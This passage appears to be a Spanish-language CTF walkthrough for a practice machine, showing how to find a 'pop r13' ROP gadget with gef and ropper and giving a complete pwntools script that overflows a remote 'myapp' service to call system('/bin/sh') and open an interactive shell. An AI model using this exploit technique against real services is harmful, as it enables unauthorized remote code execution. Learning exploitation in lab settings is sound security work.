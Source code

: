 Para hacer este truco, tenemos que pasar por Gadgets que seria un ropper en este caso. Podemos usar **gef** para buscar si existe un Gadget en este registro.

```bash
gef➤  ropper --search "pop r13"
```

```{r, echo = FALSE, fig.cap="gef search for gadgets", out.width="90%"}
    knitr::include_graphics("images/Safe-gadget-r13.png")
```

Aqui vemos que tenemos un Gadget `pop r13; pop r14; pop r15;` y tenemos la direccion **401206**. Esto quiere decir que podemos meter la direction de **system()** en
`r13` y por lo de `r14` y `r15`, pondremos un byte nullo.
```python
![Safe-adet-r13](/assets/images/Safe-gadget-r13.png) 
#!/usr/bin/python3

from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)
# p = gdb.debug('./myapp', 'b *main')

p.recvuntil("What do you want me to echo back?")

# gef➤  ropper --search "pop r13"
# 0x0000000000401206: pop r13; pop r14; pop r15; ret;
pop_r13 = p64(0x401206)
junk = ("A"*112).encode()
bin_sh = "/bin/sh\x00".encode()
# JMP => r13 [system()]
# 0000000000401040 <system@plt>:
#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>
system_plt = p64(0x40116e)
null = p64(0x0)
# â¯ objdump -D ./myapp | grep "test"
#   40100b:       48 85 c0                test   %rax,%rax
#   4010c2:       48 85 c0                test   %rax,%rax
#   401104:       48 85 c0                test   %rax,%rax
# 0000000000401152 <test>:
test = p64(0x401152)
#                             **************************************************************
#                             *                          FUNCTION                          *
#                             **************************************************************
#                             undefined test()
#             undefined         AL:1           <RETURN>
#                             test                                            XREF[3]:     Entry Point(*), 00402060, 
#                                                                                          00402108(*)  
#        00401152 55              PUSH       RBP
#        00401153 48 89 e5        MOV        RBP,RSP
#        00401156 48 89 e7        MOV        RDI,RSP # RDI => "/bin/sh\x00"
#        00401159 41 ff e5        JMP        R13 # => system($rdi)
p.sendline(junk + bin_sh + pop_r13 + system_plt + null + null + test)
p.interactive()
```
